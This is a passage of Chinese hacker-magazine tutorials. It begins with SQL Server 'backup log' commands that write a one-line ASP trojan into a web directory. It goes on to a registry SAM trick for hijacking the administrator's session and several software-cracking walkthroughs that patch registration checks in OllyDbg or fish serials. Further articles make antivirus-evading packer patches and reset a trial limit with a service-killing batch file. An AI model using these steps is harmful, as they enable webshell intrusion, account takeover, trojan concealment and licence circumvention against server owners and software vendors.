backup log DVBBS to disk = 'c:\cmd' with init  -- 减少备份数据的大小
insert into cmd (a) values (0x...)      -- 插入一句话木马
backup log DVBBS to disk = 'E:\szwhxxgc\shel1.asp'  -- 备份到WEB路径
```

图9

如果是数据库分离的话也可以参照第三期杂志中“路人甲”所写的文章来进行操作（差异备份一个 BAT 到启动项）。另外还要告诉大家，现在可还有很多服务器使用的是 Win2000 操作系统哟。（本文所涉及到的 SQL 查询分析器、IIS 写权限利用工具已经收录到光盘中）

## 破解学 SAM 欺骗——28度的冰[H.S.T]


SAM 欺骗是什么意思？SAM 欺骗最后又能实现什么？关于这两个问题大家先不用急着去找答案，相信在仔细看了本文之后就自然会明白了。SAM 可以说是 Windows 系统中的“谋刺机关”，它相当于 Windows 系统的“命门”，可是越玩我却发现，SAM 也是能够被欺骗的。先说说我最早的想法，虽然这个方法失败了，但我认为还是有必要去说一下。

大家都知道在 Windows 系统中，SAM 文件是储存在 `%systemroot%\system32\config\` 目录下的，而这个文件一般情况下是被系统独占，我们不能够对它进行读、写、删除。要想实现 SAM 欺骗，就要把 SAM 文件拷贝出来，或者说是备份出来，然后把 administrator 的密码更改掉，登录系统之后再把 SAM 恢复到原来的位置。这样的效果是：你在不知道 administrator 密码的前提下也能够登录到 administrator 的界面。这里所说的界面可以是远程桌面，也可以是本机的桌面。当然了，上面所提到操作都要求你已经有了管理员权限或者更高的权限才行。

- 1. administrator 的界面会使你更加容易地熟悉整台服务器，至少一些常用软件的快捷方式会放在桌面上。  
- 2. 比如说服务器上跑着 SQL Server，如果存在另一台服务器同样也跑着 SQL Server，那么我们就能更方便地尝试登录并利用。  
- 3. 在账号登录远程桌面时，任务管理器中有时能够看到 administrator 也在，若能连接到其控制界面对我们非常有帮助。  
- 4. 在文件共享中，如果 administrator 的密码相同，那么服务器之间共享文件可以直接访问而不用再次输入密码。  
- 5. 在远程桌面客户端的下拉列表中，能较容易看出 administrator 经常登录的是哪些服务器。  

说了以上的几点好处，我想大家应该大致明白其意义了吧。可是，刚才我所说的把 SAM 文件拷贝出来再恢复的方法是不可行的。问题不在拷贝，而是在恢复这一步。SAM 文件可被工具拷贝出来，但恢复很难，因为 SAM 被系统独占，不可能被删除或者覆盖。在 Win2003 系统下测试过，强行操作后系统会出现严重问题。

车到山前必有路，上面所提到的做法，总体思想是对的，只是具体的实现方法不好，手工克隆账号的方法给了我灵感。对于还不知道“克隆帐号”为何物的朋友，可以翻看以前的黑客 X 档案杂志。来看我的具体操作。

第一步：在“开始”“运行”栏输入 regedit.exe 打开注册表编辑器，找到 `HKLM\SAM\SAM` 项，如图1。

第二步：在 `HKLM\SAM\SAM` 上点鼠标右键，选择“权限”，将 Administrators 对 SAM 设置为完全控制，如图2。


第三步：设置好权限后点击确定，然后按一下 F5 刷新，使得权限修改的效果得以体现。现在 SAM 节点就能展开了，一直展开到类似如图3所示的样子。

第四步：在 `000001F4` 上点鼠标右键，选择“导出”，将文件导出到一个位置，比如 C 盘下的 `1.reg`，如图4。


第五步：在 administrator（如果 administrator 被改名了，那就去找对应的管理员用户名）上点鼠标右键，选择“导出”，比如将文件导出为 C 盘下的 `2.reg`，如图5。


经过上面五步的操作，我们就可以随心所欲地修改管理员的密码了。当你想恢复 administrator 的密码时，只要双击 `1.reg` 和 `2.reg`，将其导入到注册表中，就能恢复管理员的密码了。可以看出 `%systemroot%\system32\config\` 里面的 SAM 文件和注册表中的 SAM 节点下的内容还是有很大关系的。

为了印证我上面所说的方法，我们来进行一个实验，比如目前的情况为：  
1. administrator 登录并断开，断开之前打开了一个密码文件；  
2. ice 是我们通过技术手段在目标主机上添加的具有管理员权限的账号；  
3. administrator 账号的密码是 bshackest，可是作为 ice 的我们事先并不知道。  


第一步，我们使用 **ice** 这个帐号登录远程桌面，通过任务管理器看到 administrator 用户也在，如图6。

第二步，按照上面的方法将注册表信息导出到 `C:\1.reg` 和 `2.reg`，如图7。

第三步，在 CMD 命令行中使用 `net user administrator 28ice` 命令将 administrator 的密码改成 28ice，这样即可用该密码连接 administrator 远程桌面（图8）。

第四步，现在就可以登录管理员的远程桌面了（在任务管理器“用户”中连接）。在任务管理器的“用户”项中，在 administrator 上点鼠标右键，选择“连接”，然后输入 **28ice**，就成功连接管理员桌面了，如图9。

第五步，要想成为真正的管理员，只要再导入 `1.reg` 和 `2.reg` 这两个注册表文件即可，如图10。导入之后即成为真正的 administrator，密码也变更。


“SAM 欺骗”并非新东西，但在拿到管理员权限后，若想在 administrator 桌面继续操作，需理解前文所述原因与步骤。

## 不让输的我也输

近墨者 [iamdge]

大家都知道，QQ 为保护用户密码安全，不允许在登录窗口中直接粘贴密码。本文介绍一种在 QQ 密码框中“粘贴”密码的简单方法。


方法步骤：先复制密码，在 QQ 密码框中点一下使光标停留；按下 `Shift+F10`（保持 Shift），再按 `P`（或点击“粘贴”），即可把密码贴入密码框，如图2。

## 从零开始学破解之（十六）

## 注册码“伪破解”


Talent Feng

小菜们经过一年的学习，从暴力破解到手动脱壳已经驾轻就熟了，虽然功力不敢说太深厚，但是一些简单的问题已经难不倒小菜们了。现在就让我们回忆一下去年学习过的内容，当作是一次简单的复习吧！

去年上半年，我为大家详细讲解了暴力破解的各种实战应用：从对付 NAG 窗口到解决次数限制、功能限制等。后来又对 PEID 和 OD 这两个破解“必备”工具进行了更细致的使用讲解，并在最后介绍了“脱壳”等热点内容。

以上就是 2007 年大家学过的主要内容。新的一年里，课程难度会有所提高，让小菜们的技术有一个质的飞跃。

现在仅仅知道软件没有加壳、注册窗口在哪里、注册提示是什么还不够。未注册时有什么限制往往才是关键。运行软件后，当修改“扫描主机”的线程数时出现提示，说明未注册状态下不允许修改搜索主机线程，属于明显的“功能限制型”保护。


图2

## 新年第一章：神秘的“伪破解”

提到“破解”，小菜们都非常熟悉了，怎么突然又冒出了一个“伪破解”呢？这个“伪破解”是什么东西？先把这个问题放在心里，我们来破一个软件试试身手，顺便复习下学过的知识。

## 复习与实践篇

今天要破解的目标软件叫 Lansee，主要用于查看和管理局域网信息。按照破解流程，第一步是收集软件基本信息。使用 PEID 检查后，发现软件使用 Borland Delphi 编写。


图1

刚分析到这里，软件弹出注册窗口。尝试输入注册信息后出现“输入的注册码无效”的提示，这正是后续分析的关键线索。


图3

看到这样的提示信息，小菜们心里一阵激动，破解的关键信息总算是找到了。没错，我们看到的注册提示信息正是很好的破解线索。那么，下一步该怎么办呢？回忆破解的一般步骤，检查软件是否加壳、找到注册提示信息，再下一步该干什么呢？接下来就应该把软件直接丢进 OD 中进行解剖和分析了。

打开破解杀手锏“OllyDbg”，把软件放到里面，OD 就会像医生一样把软件层层解开并把分析的结果显示出来了。

> 小提示：可能有一些朋友第一次看我们的课程，还不太清楚如何把软件放进 OD 中。其实很简单，运行 OllyDbg 后单击“文件”按钮，接着选择“打开”选项，在弹出的窗口中选择目标软件就可以了。

现在小菜们看到这漫天的代码不会迷茫了吧，因为我们已经基本掌握了分析软件的功法了。看到这一行行的代码千万别头炸，转移一下注意力，单击鼠标右键，在弹出的菜单里选择“Find ASCII”，通过 OD 的这个字符串查找功能我们就可以方便地寻找软件中所包含的各种字符串信息。

在字符串海洋中寻找刚才看到的“注册提示信息”，也就是“您输入的注册名或注册码无效，请重新输入！”。很快就找到了想要的东西（图4），双击找到的这句提示信息就来到了对应的代码处。

```asm
0049678B  8BC6            mov eax, esi
0049678D  E8 BEAFFCFF     call 00461750
00496792  EB 0A           jmp short 0049679E
00496794  B8 10684900     mov eax, 00496810 ; 您输入的注册名或注册码无效，请重新输入！
00496799  E8 AD7DFAFF     call 0043E548
0049679E  33C0            xor eax, eax
```


找到“注册提示”对应的代码，我们就要开始分析这些代码的作用了。刚才双击注册提示信息的时候，直接来到了 `00496794 > B8 10684900 mov eax,00496810` 这句代码。分析代码含义并不难，尤其是配合 OD 的提示信息，能知道这句代码与弹出“您输入的注册名或注册码无效，请重新输入！”提示窗口有关。

整个过程就简单多了吧，代码的含义就是指挥程序做出相应的反应。我们已经知道了，如果程序运行了上面这句代码，就会弹出一个“您输入的注册名或注册码无效，请重新输入！”这样的提示。

这是很明显的注册失败提示，我们当然不希望看到它。所以，把注意力重新转移到 OD 主界面，很容易在不远处看到这样的提示：

```asm
00496777  BA 10000000     mov edx,10
0049677C  E8 93CEFFFF     call 00493614
00496781  B8 F8674900     mov eax,004967F8
...
00496786  E8 BD7DFAFF     call 0043E548
0049678B  8BC6            mov eax,esi
```

这个提示的含义就更明显了，标准的注册成功提示。接下来该怎么办呢？很简单，寻找关键的跳转进行修改就可以达到目的了。

根据提示信息对应代码来寻找关键跳转，比如鼠标停靠在 `00496794 > B8 10684900 mov eax,00496810` 时，OD 会给出“跳转来自 00496705（图5）”的提示，直接来到 00496705 处即可。


> 小提示：怎样快速到达指定位置的代码？在 OD 的代码窗口中按下快捷键 Ctrl+G，在弹出窗口输入指定地址即可直接定位到对应代码处。

好了，现在我们来到了以下代码处：

```asm
00496703  84C0            test al,al
00496705  0F84 89000000   je 00496794
0049670B  B2 01           mov dl,1
```

很简单的一个跳转指令，就可以对软件的注册与否做出关键判断。软件注册验证的关键代码就在这里。通过前面的分析可知：若跳转实现，则会进入注册失败代码并弹出失败提示；若跳转不实现，则会按顺序运行到注册成功对应代码。

这样看来，修改的办法就有了，选中 `00496705 |. 0F84 89000000` 这句代码，单击鼠标右键选择“汇编”，在弹出的小窗口中把对应的代码使用 `NOP` 进行替代，修改后的结果如图6所示。


图6

修改了关键代码后，小菜们心想着“现在这个软件应该被破解了吧”，从整个破解的过程、方法以及分析的思路上看，整个破解工作是没有任何问题的，究竟有没有破解完成呢？我们还得实践一下才能知道。

修改代码并不是破解的最后一步，小菜们都知道必须要把修改的代码写入到程序中才能起到作用。所以，再一次单击鼠标右键，选择“复制到可执行文件”，按照保存文件的办法把修改后的程序进行保存，整个破解工作才算是真正完成了。因为我们已经把关键代码进行了修改，所以不论输入怎样的注册码，软件都会认为输入的注册码是正确的，进而弹出注册成功的提示信息。那么我们的破解究竟有没有成功呢，赶紧来试试。

按照刚才的操作，打开注册窗口，任意输入一组注册信息。小菜们胸有成竹地按下了“确定”按钮，果然令人兴奋的结果出现了，软件弹出了“谢谢您的注册”这样一个窗口（图7），很明显这个窗口告诉我们软件被解除了。为了验证我们的成果，试着修改一下搜索线程看看。可以看出我们已经能够任意修改软件的搜索线程数了。看来破解的工作已经圆满完成了。


图7

“等等，等等，怎么就完了？不是说今天的内容是伪破解嘛？到现在还一个字没提呢？”成功的喜悦差点让我忘了正事。那什么才是今天的主角“伪破解”呢？先不忙着给大家解释什么是“伪破解”，小菜们先把正在运行的那个经过我们破解的软件关闭掉，然后再运行一下看看。只是运行还不能发现有什么不对劲的地方，但是小菜们试着再修改线程，看到了吗？软件理应被破解了，不仅整个过程、整个分析思路完全正确，更重要的是已经经过了大家一致验证，为什么再一次运行的时候问题又出现了呢？没有注册、不能修改搜索线程的提示窗口又出现了，软件怎么又回到了没有注册时的状态呢？

大家不要疑惑，我们现在所遇到的这个情况就是传说中的“伪破解”。结合字面的含义与我们的亲身经历，小菜们现在知道什么叫做“伪破解”了吧！简单地说，伪破解就是表面上实现了破解软件的目的，但事实上却并没有将软件完全破解掉，我们也看到了这样的破解是不能经受住考验的。

## 理论与原理篇

现在大家不禁要问，完全正确的破解过程为什么会出现“伪破解”的状况呢？这就要从软件的注册验证方式说起了（注意：注册验证方式与注册验证流程是不一样的）。我们采用最简单的描述给大家讲解其中的原理。可以这样看待一般的软件：这些软件的功能限制与注册验证是绑定在一起的，其实大多数软件采用的都是这样的方式。也就是说，当注册验证被破解后，功能限制也随之解除了。

但是，还有一类软件比较特别，功能限制与注册验证是分开的。也就是说，即便解决掉了“注册验证”，某些“功能限制”仍有可能存在，除非是经过了规定的注册流程，即购买正式的注册码。正是由于“注册验证”与具体的“功能限制”之间是相互独立的，所以就导致了今天遇到的“伪破解”的情况。

形象一点来比喻：一般的软件之所以在破解注册验证之后就能够实现完美破解，是因为软件的“注册验证”与“功能限制”这两者是拴在一条绳上的蚂蚱，一个被攻破了另一个也就不复存在了。而我们今天虽然幸运地遇到了一个没有加壳处理的软件，但是却遇到了更麻烦的情况。

明白了其中的道理，小菜们现在最关心的就是如何解决这个问题。整理一下思路：现在面对这个软件，因为“注册验证”与“功能限制”是分开的，所以即便解决掉了“注册验证”相关的部分，“功能限制”也依然是存在的。不过摆在大家面前的问题也清晰了起来，既然“注册验证”已经解决掉了，下面就要解决“功能限制”的问题了。

关于功能限制的破解，在以前的文章中已经给大家介绍过了。不过时间很久了，小菜们可能已经遗忘了一些。为了让大家能够一方面复习旧的知识，一方面学习新的方法，接下来就用一个简单的办法来解决掉软件的“功能限制”。

回忆一下收集到的软件注册提示信息，当软件没有注册的时候，如果去修改“搜索线程”这一项，就会弹出一个窗口告诉我们“注册后，才能修改线程数”。现在，我们只需要使用这个提示信息作为线索来破解软件的功能限制就行了。还是将目标软件放入 OD 中进行分析，再一次打开“字符串查找”功能，很快就找到了“注册后，才能修改线程数”这句提示信息（图8），双击就可以来到对应的代码处了：

```asm
004A5343    3B05 648EA400    cmp   eax, [4A8E64]
004A5349    74 2A            je    short 004A5375
004A534B    8B15 648EA400    mov   edx, [4A8E64]
004A5351    8B83 F4030000    mov   eax, [ebx+3F4]
004A5357    E8 B8E2FEFF      call  00493614
004A535C    B8 80534A00      mov   eax, 004A5380   ; 注册后，才能设置线程数！
004A5361    E8 E291F9FF      call  0043E548
004A5366    A1 F0724A00      mov   eax, [4A72F0]
```

关键的代码又一次出现了，那么该如何修改呢？按照相同的方法来理解这里每一句代码的含义，小菜们可以这样想：当程序运行到 `004A535C . B8 80534A00 mov eax, 004A5380` 这句代码时，就会弹出一个“注册后，才能设置线程数！”的提示窗口。大家当然不想让这个窗口出现了，所以要想办法跳过这句代码。正好不远处就有一个跳转指令 `004A5349 . 74 2A`。根据它所指向的地址，刚好能够跳过那句我们不该看到的代码……

```asm
004A5349  . 74 2A      je short 004A5375
004A5349               jmp short 004A5375
```

把 `74 2A` 改成 `jmp short 004A5375`。现在，功能限制被成功解除了吗？赶紧试验一下，免得又出问题……“伪破解”的产生是由于注册验证方式所决定的，而且非常隐蔽……

## 菜鸟来制作完美国际双开补丁


玩游戏能双开的好处我就不说了，既方便自己大小号的升级，也方便物品的交换和存储等。来看一下菜鸟我是如何制作完美国际的双开补丁的。必备的工具嘛，就是 OllyDbg（以后简称 OD）和 keymake。

`element\elementclient.exe` 是完美国际的主程序，我们制作补丁就得拿它开刀……双击运行 `elementclient.exe`，它却提示我：“Please start game from launcher.exe”……查找到文本字符串后来到 `0043AFB6` 处：

```asm
0043AFAD   75 29          JNZ SHORT elementc.0043AFD8
0043AFAF   6A 10          PUSH 10
0043AFB1   68 10A08900    PUSH elementc.0089A010
0043AFB6   68 C0BF8900    PUSH elementc.0089BFC0
0043AFBB   50             PUSH EAX
0043AFBC   FF15 50B68200  CALL DWORD PTR DS:[<&USER32.MessageBoxA>>
```


在 `0043AFAD` 处有一个比较跳转，如果让它强行跳转，就不会弹出那个可恶的错误窗口。在 `0043AFAD` 处按空格改汇编，将 `JNZ` 修改为 `JMP`（图5），然后选择“复制到可执行文件”并“所有修改”（图6），将文件保存为 `1.exe`。


现在运行 `1.exe` 可以正常运行游戏，但双开时又会弹出错误窗口（图7）。下面继续用 OD 载入 `1.exe`，通过字符串查找“game is currently running. you can't start another process!”定位到 `0043BFA4`：

```asm
0043BF9B   74 1E          JE SHORT ...
0043BFA4   68 F8C18900    PUSH 1.0089C1F8
0043BFA9   6A 00          PUSH 0
0043BFAB   FF15 50B68200  CALL DWORD PTR DS:[<&USER32.MessageBoxA>>
```


在 `0043BF9B` 处将 `JE` 改为 `JMP`，并将修改后的文件另存为 `2.exe`。随后运行 keymake，选择“其它”→“制作文件补丁”，按图9所示设置原始文件与已破解文件，点击“制作”即可。这样以后使用补丁更方便。（文中涉及工具 OllyDbg 和 keymake 已收录在光盘中）

## 从零开始学破解之（十七）

## 注册码进阶篇

Talent Feng

- 难度级别：★★★
- 知识要点：掌握注册码破解的基本思路

一说到“注册码”，大家精神为之一振。注册码是软件破解中的重要概念，各类破解技术最终都要设法找到软件的注册码；一旦得到注册码，软件保护就可能被攻破。

说到注册码，要讨论的内容很多。软件破解与反破解的较量，本质上就是寻找注册码与隐藏注册码的较量。由于注册码重要，软件作者也会在保护机制上投入大量精力，却一直都在“入门技术”中转悠，多少有点不甘心。事实上我们在以后的学习过程中就会发现，基础知识学习好了，后面的知识学起来就相当快，所以基础知识是非常重要的。

言归正传，今天要为大家引入的新概念就是“注册码”，关于这个东西小菜们目前只需要知道它很重要就可以了。那么究竟这个“注册码”是怎样一个神奇的东西呢？在今后的课程中我们就一起来认识这个新“朋友”。

这个问题，就希望各位在以后的学习中慢慢体会吧。我可以小小地透露一下，如果能够寻找到软件的注册码，那就是“一劳永逸”，也就是说找到了注册码，其它的问题就全部解决了，什么“功能限制”“次数限制”“伪破解”统统解决了。怎样寻找软件的“注册码”呢？之后怎样把找到的注册码给提取出来呢？如果能够随意地找到软件的注册码，那一定是件非常有意思并且相当自豪的事情。没错，如何熟练地寻找到软件的注册码就是我们的下一个任务目标，小菜们准备好了吗？

## 第一章：理论篇

### 第一节、初识软件注册码

### 第二节、分析注册码是如何产生的

首先大家要了解什么是“软件的注册码”，相信对于这个概念小菜们不会陌生，因为在平时使用各种软件的过程中以及练习破解技术的时候我们都会接触到它。大家肯定会有这样一个认识：只要有了注册码，就可以实现软件的注册了。所以，我们得到了这样一个很简单的结论：“注册码，就是用于注册软件的”。有时注册码也会被叫做“序列号”“注册码”“认证码”等。

好了，关于注册码的简单概念就为大家介绍到这儿，接下来要讲解的重点就是如何把“注册码”与“软件破解”联系起来。我们学习了这么久的破解，还确实没有详细地接触到“注册码”呢，大家不要着急，下面就要和注册码开始“亲密接触”了！

接触到“注册码”也就意味着我们的技术即将登上一个新的台阶了，所以很有必要为大家做一个简单总结。破解技术可以分为两类：一类是“暴力破解”，这是最简单的一门技术，相当于破解技术中的“入门技术”；另一类就是我们即将学习的，通过寻找软件注册码的方法来实现破解软件的目的，也叫作“追码破解法”。

此外，通过前面几次课程的学习，大家也认识到了“暴力破解”具有一定的局限性，也就是针对不同类型的软件我们必须采取不同的方法来解决。遇到功能限制的软件要使用针对此功能限制的破解方法，遇到使用次数限制的软件就要使用针对次数限制的破解方法。还有“伪破解”，就是表面上看似破解成功，但实际上根本没有实现破解目的。

说了这么多“暴力破解”的不足和缺点，小菜们千万不要以为这会否定以前的学习；在破解殿堂中各种技术都是相辅相成的。基础的东西掌握得越牢固，对高级技术学习就越快，所以“暴力破解”这个基础一定要打扎实才行。

说来说去都是在讲找到注册码如何如何地好，小菜们的胃口也早都被吊起来了。对于这个注册码究竟与我们的破解有什么关系呢？所谓“寻找”注册码，真正的含义就是通过跟踪与调试的方法来找到内存当中出现的软件注册码，这个过程就是寻找注册信息的过程，也就是小菜们经常听到的“追码”。

软件的注册码验证过程一般是这样的：

- 第一步，软件提示我们输入注册名与注册码，点击“注册”后弹出窗口并要求输入相关内容。当我们输入注册名和注册码后，注册码经历了怎样的过程？
- 第二步，软件会把输入内容记录下来，不管输入的是 123 还是 456，软件都会进行记录。在这个步骤中软件将注册名与注册码进行了分离，为后面的工作做好准备。
- 第三步，软件会把注册名取出来并进行最关键的一步——运算。这个计算过程通常只有软件作者知道，若能准确获知算法，往往就意味着防护体系被突破。计算后，输入的注册名会被转换成某种结果字符串，然后再与输入的注册码进行比较或后续验证。

因此，分析软件的注册算法是一件非常有成就感的事情，也是“追码破解”的核心能力之一。

第四步，当计算完注册名后，软件会接着把“注册码”提出来，也就是小菜随便输入的那个“1234”。这时候把它取出来是要干什么呢？别急，软件并不会把这个“注册码”进行什么处理，而是接着把上一步计算得到的“算法计算结果”取出来。也就是说，此时软件用到了两个东西：一个是小菜输入的“注册码”，也就是“1234”；另一个则是上一步得出的“计算结果”，也就是“小菜菜”。“同时把它们两个取出来要干什么呢？”小菜们疑惑地问道，下面就要进行一个非常重要的过程了。

第五步，为什么说这一步非常重要呢？因为这时软件会把“注册码”与“计算结果”进行一个比较，也就是比较“1234”与“小菜菜”这两个东西，看它们是否相等。“当然不相等了！”小菜们在第一时间就做出了反应。没错，软件也检验出了这两个东西是不相等的。那么软件发现它们不相等又能怎么样呢？我们来看下一步。

第六步，软件已经发现所比较的两个值是不相等的，接下来软件就会对这个判断结果作出反应了。下面的情景大家就很熟悉了：软件会弹出一个窗口告诉我们“注册失败”，也有可能是“注册码错误”。显示的内容也许会不同，但是所包含的信息是一样的，那就是没有注册成功。小菜们恍然大悟，原来注册失败的提示就是这么出现的呀，总算找到原因了。

经过以上这六个步骤，软件的注册验证工作也就宣告完成了。小菜们似乎还没有回过神来，新的问题又来了：为什么把我们输入的注册码“1234”与注册名计算的结果“小菜菜”进行比较后，就会弹出注册失败的提示呢？直接的原因是因为“1234”与“小菜菜”是不相等的，这一点大家已经很清楚了，不等于“小菜菜”就导致了注册失败。大家整理一下思路，我们一直称作“注册码”的东西其实就是随意填写的一组数字“1234”，也就是说这个“注册码”是我们很熟悉的“假码”或者“试验码”，总之大家只要记住它不是真正的注册码就可以了。小菜们一定也知道，如果输入的注册码与正确的注册码相等，软件就会注册成功；如果输入的注册码与真正的注册码不相等，那么就会注册失败。大家想想看，现在的情况是软件提示我们“注册失败”，也就是说我们输入的注册码与真正的注册码不相等。而我们输入的注册码是“1234”，它与真正的注册码不相等，那么真正的注册码又是什么呢？没错！聪明的小菜马上联想到了刚才提到的那个“小菜菜”，因为正是它与“1234”比较后，直接导致了软件的注册失败。现在一切都很明白了，真正的注册码就是“小菜菜”这个东西。

我们这里的“小菜菜”是如何计算出来的呢？很简单，是通过对注册名的计算得来的。好了，分析到这里就可以高兴地告诉小菜们，我们已经分析出了软件注册验证过程中最关键的部分，也就是真正的注册码是如何得来的。其实大多数软件的注册码都是由注册名直接计算得来的。明白了注册码产生的过程，后面的内容就很好理解了。

### 第三节、寻找注册码的行踪

寻找软件注册码最主要的步骤，就是通过分析调试的办法找到软件的注册码。那么为什么我们可以找到注册码的行踪呢？原因是这样的：软件的注册验证过程决定了软件必须给出一个注册成功与否的答复。要判断我们是否成功注册，最直接的办法就是检验我们输入的注册码是否正确；如果正确就注册成功，因此我们寻找注册码的机会就出现了。因为软件在一定的时候肯定会把输入的假注册码与通过计算得出的真正注册码进行比较，既然必须要用到真正的注册码作为比较的对象和标准，那么这时候真正的注册码就会无可避免地出现在电脑的“内存当中”。假如通过一定的手段，把此时出现在内存当中的注册码抓出来，不就可以得到真正的注册码了吗？有了真正的注册码，剩下的事情就简单了！现在，我们要一起解决的问题就是如何从内存当中寻找软件真正的注册码。

## 第二章：实践篇

理论讲了一大堆，小菜们早就按捺不住跃跃欲试了，毕竟通过亲身的实践才能真正提高我们的技术！现在我们就一起尝试如何从内存当中寻找软件的注册码。我们要用到的工具主要有 PEID 和 OD（对于这两个工具，相信小菜们已经很熟悉了，任何破解工作基本上都离不开它俩）。

首先，我们依然遵守破解的一般流程，习惯性地使用 PEID 检查一下软件有没有加壳。从 PEID 的检查结果可以看出我们很幸运，软件没有经过加壳（图1）。既然没有加壳，那就直接切到 OD 里分析一下吧。运行 OD，载入目标软件，下面就要寻求软件的关键代码了。对于如何寻找关键代码，小菜们都已经很熟悉了吧。通过 OD 的字符串查找功能，寻找到软件的注册提示信息，根据这个信息就能很快地寻找并定位关键代码了。


打开字符串参考，很快就找到了“注册码不正确”这句关键的注册提示（图2），双击这个提示信息就会来到对应的代码处了（图3）。


现在小菜们不要急着去寻找什么关键跳转、修改代码什么的，因为我们今天的重点内容是寻找软件的注册码，也就是使用文明的方法来破解软件了。那些修改代码之类的暴力方法，实在是太过野蛮了，技术也要向文明的方向发展嘛！我们要如何才能找到软件的注册码呢？

### 第一步、定位

需要定位一段代码，因为是通过跟踪的方法来捕捉真正注册码出现的瞬间……先从第一步开始，把注意力集中在关键代码位置。


这段代码上，我们需要设置断点。选择相应代码并按快捷键 F2，代码变红即表示断点设置成功（图4）。


### 第二步、中断

所谓中断，就是让软件在正常运行过程中停在我们需要的位置。设置好断点后按 F9 运行，在注册窗口输入如“456 / 1234”，点击确定后程序会在断点处中断（图5）。

### 第三步、跟踪

通过跟踪寻找注册码踪迹。使用单步跟踪（F8），观察窗口数值变化，可在旁侧窗口发现“1234”的踪影（图6）。


此时需注意：假注册码出现时，真正注册码往往就在附近。窗口中可见输入值“1234”后跟随一串可疑字符，其模样与注册码相近（图7）。


分析可知，注册验证核心是比较“假注册码”与程序计算出的“真注册码”。因此与“1234”紧邻出现的字符串极可能就是目标注册码。

### 第四步、验证

将可疑字符串复制出来，在软件中保持注册名一致并填入该注册码，点击“确定”后弹出注册成功提示（图8），说明找到的注册码有效。


## 第三章：总结篇

总结：通过定位、中断、跟踪与验证的流程，可以完成注册码分析与验证，达到注册软件的目的。这种方法是非常简单的，与暴力破解相比显得更简单易行，但是作为一种较为高级的破解方法，其本身还是有一定难度的。大家会发现，寻找注册码最关键的步骤就是关键代码的定位……当我们输入的注册码出现在 OD 中的时候，真正的注册码离我们也不远了……好，今天的课程就到这里。

## 教你制作完美补丁


小小木马 & Venom

现在的免杀技术越来越强，造成的后果就是被杀毒软件的疯狂追杀。对于小菜们最苦恼的事来说……这次我给大家带来的可是通用的补丁哟。我们需要用到以下几款工具：CodeFusion（文件补丁制作）、OllyDbg、OC（偏移转换器）、C32Asm（16进制编辑器）。


### 一、踩点（收集信息）

我们以北斗3.6为例进行演示……把程序打开（图2），按照程序的平衡原则我们使用第五行代码处修改，原本为 `sub ebp,7`，也就是让 `ebp` 减去 7 的意思。改为 `add ebp,-7`……然后点击编译，保存文件（图3）。

```asm
sub ebp,7
add ebp,-7
```

代码做了哪些变动呀！这时该 OC 上场了……找到 `sub ebp,7` 的内存代码，填到 OC 右下方内存地址那一栏去（图4）……


到这里信息就收集完毕了，我们收集到的信息就是：在文件偏移 `00001B84` 处，修改前和修改后的代码分别是“83 ED 07 8D 40 FD”和“83 C5 F9 8D 40 FD”。


### 三、完成（测试效果）

为了测试一下效果，我们随便找个程序给它加上北斗3.6的壳，然后运行我们的补丁，给它加上个补丁来看效果，如图14、图15。随后我又试了好几个程序都修改成功，说明我们制作的补丁没有问题。

### 四、后记（相关应用）

这个软件的应用非常广泛，除了可以给文件打补丁外，相关的文件操作也都可以实现。就以灰鸽子的 Cserver.dat 文件的特征码修改来说吧，如果你辛辛苦苦定位出来的特征码不想公布的话，完全可以制作个补丁，何乐而不为呢！

（文中涉及到的工具 CodeFusion、OllyDbg、OC、C32Asm 已经收录在光盘中）

## 让“雨过天晴”无限用

王强


雨过天晴是国内恢复软件的佼佼者，无论从功能或界面等方面都比影子系统和 GHOST 强。但是它有一个很严重的问题，就是只能试用 7 天，如图1。大家都知道如果系统在需要恢复时被限制要先注册或交费，那该会有多郁闷呀！为了让雨过天晴能够真正突破限制，本文我就介绍两种方法来突破限制，真正实现恢复系统随心所欲！

### 方法一：时光倒流法

首先我们到雨过天晴官网网站（http://www.nyanyue.com/download_1.php）下载最新版本的雨过天晴试用版。本文我以 070704 版为例，安装前要记下试用的序列号 `098009-360043-500558`。安装前还有个注意事项：先将系统时间往后调整 2 年，当然如果恢复意识好的话也可以多调一些。然后再去运行下载安装测试版安装程序，到最后提示你是否要重新启动时，选择不重新启动！关闭安装程序，将时间调回到正确时间后再重新启动。这时等雨过天晴安装完成后，我们就会看到已经有 700 多天的试用时间了，如图2，这下基本够用了！


### 方法二：瞒天过海法

简洁方法一定够完美的话，就根本没必要再介绍方法二了。在实际的使用过程中我发现，在使用了几天后，雨过天晴又提示需要注册一类的话，看来上述方法还有一些欠缺！现在我再出奇招——瞒天过海法！

首先将原来安装的雨过天晴目录 `yuguo` 全部拷贝到另外的目录以备用，再卸载掉雨过天晴。使用浏览器打开 http://www.5lok.com，在左上方查找用户名 `hnwq`，看到一个 060612 的老版本雨过天晴以及注册1、注册2等文件，全部下载后先运行 060612 进行安装，安装完成后不要重启系统，如图3。


将注册1和注册2的文件全部拷贝到卸载前雨过天晴的目录中，依次运行注册1和注册2，如图4。注册2文件运行时并没有什么明显的反应，只是感觉鼠标变成沙漏然后马上恢复了正常。全部完成后重启系统，雨过天晴就可以正常使用了。但因为是老版本，所以下一步就需要换为新版本！

雨过天晴有着比较严密的保护措施，所以想在 WINDOWS 环境下升级安装有些困难。我制作了专用的升级包 0707，也一并放在以上网盘中，文件列表如图5，大家下载后双击运行即可。其中的关键部分是解压时调用一个批处理，内容如下：


```bat
@kill -f eaztray.exe >NUL
@net stop EAZClientService >NUL
@net stop SHDSERV >NUL
@kill -f explorer.exe >NUL
@if exist "%ProgramFiles%\yuguo" xcopy "*.*" "%ProgramFiles%\yuguo" /Y>nul
@START EXPLORER
@echo. 全部完成,重启生效!
```


其中的 KILL 来源于 XP 系统的 TASKKILL，目的是用来中止进程的。因为考虑到如果安装的系统是 WIN2000 则没有此文件，所以就包含在其中了！提醒一下大家，在安装雨过天晴程序时会提示是否检测新版本，如图6，这时请不要选择检测，而是直接安装当前版本。好了，最后运行成功，没有使用天数等显示了，如图7。（文章中涉及到的注册码相关文件已经收录在光盘中）


## 从零开始学破解之（十八）

## 重启验证型软件的破解


上一课我们带领着众小菜，与软件的注册进行了第一次的亲密接触。作为破解水平从入门到进阶的转折点，相信小菜们已经领略到了“注册码”的强大威力了。本来打算就此来实现小菜们技术上的飞跃，掌握更多更好的破解技术，让小菜们也能够像老鸟们一样自由地翱翔。但是昨晚继续让大家体验“注册码”的魅力时，发现很多小菜对破解的理解还有些片面……（左栏正文，介绍普通注册验证与重启验证型思路过渡）

